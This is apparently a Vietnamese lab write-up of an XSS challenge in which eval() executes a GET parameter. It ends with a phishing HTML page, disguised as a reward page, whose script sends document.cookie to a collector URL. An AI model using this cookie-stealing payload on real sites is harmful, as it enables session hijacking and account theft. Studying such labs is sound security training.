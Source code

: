 Không giống các bài trước, bài này không có box để nhập

![image](https://github.com/user-attachments/assets/f29bf040-edd1-4f39-8523-d8f53e0bf18a)

Source:

![image](https://github.com/user-attachments/assets/6e18371d-c62e-4256-a022-6e4dc6a6e3e4)

Bài này dùng hàm eval làm mã lệnh trong Js. Ở đây hàm eval lấy giá trị Date() để hiển thị thời gian bên client.

Để ý url có thể thấy bài này dùng method Get

![image](https://github.com/user-attachments/assets/ceec2513-900c-4a0b-85de-74f239f01006)

### Kiểm tra XSS

Thử thay giá trị ```Date()``` thành một mã lệnh khác như ```alert('XSS')``` và thấy kết quả như hình dưới.

![image](https://github.com/user-attachments/assets/6be7a037-7fd3-4f6c-b624-89bf44d2c305)

--> XSS đây rồi

### Khai thác

Tạo một url phishing cookie 
```php
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Nhận phần thưởng</title>
</head>
<body>
    <h1>Đang xử lý...</h1>
    <script>
    window.open("http://localhost/get.php?cookie=" + document.cookie);
    </script>
</body>
</html>
```

